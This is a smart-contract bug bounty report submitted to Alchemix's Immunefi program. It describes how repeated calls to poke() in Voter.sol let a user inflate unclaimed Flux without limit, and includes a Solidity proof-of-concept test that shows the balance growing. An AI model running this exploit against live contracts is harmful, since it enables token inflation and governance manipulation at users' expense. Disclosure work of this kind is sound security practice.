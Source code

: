 
# User can increase their unclaimed Flux token without limits through `poke()`

Submitted on Sun May 05 2024 19:39:08 GMT-0400 (Atlantic Standard Time) by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30788

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- unbounded minting of token

## Description
## Brief/Intro
A user can increase their unclaimed Flux token amount by calling `Voter.poke()` multiple times.

## Vulnerability Details
The `Voter._vote()` function calls `FluxToken.accrueFlux(_tokenId)` which increases the `unclaimed[_tokenId]` balance according the `_tokenId` voting power. `_vote()` is called by `vote()` which has the `onlyNewEpoch(_tokenId)` modifier attached, so it can be called only once during each epoch. 

The `_vote()` is also used inside `poke()`. `poke()` is supposed to vote based on the users previous voting weights. however `poke()` does not have the above mentioned modifier attached, hence it can be called multiple times during the epoch without any limits. Each time `poke()` is called the unclaimed FLUX is increased.

## Impact Details
The impact is that the user can accrue potentially unlimited amount of unclaimed Flux. The unclaimed Flux could be used to execute unfair voting by increasing the user's voting power. It could also be claimed and sold on the open market to suppress the Flux price which will allow other users to unlock their veALCX tokens at lower prices hence destroying the entire voting system credibility.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195

        
## Proof of concept
## Proof of Concept
Add to the `VotingEscrow.t.sol` the following code:
```solidity
function testAbusePoke() public {
        hevm.startPrank(admin);

        uint256 tokenIdLarge = veALCX.createLock(TOKEN_100K, THREE_WEEKS, false);
        //uint256 tokenIdSmall = veALCX.createLock(TOKEN_1, THREE_WEEKS, false);


        voter.reset(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge: %d", flux.unclaimedFlux(tokenIdLarge));
        voter.poke(tokenIdLarge);
        // we can see that the user amassed more unclaimed FLUX: 9420478183663114723056
        console.log("Unclaimed Flux on tokenIdLarge after poke called once: %d", flux.unclaimedFlux(tokenIdLarge));

        // even more after calling poke() again: 14130717275494672084584
        voter.poke(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge after poke called twice: %d", flux.unclaimedFlux(tokenIdLarge));

        // and again: 18840956367326229446112
        voter.poke(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge after poke called thrid time: %d", flux.unclaimedFlux(tokenIdLarge));

        hevm.stopPrank();
    }
```
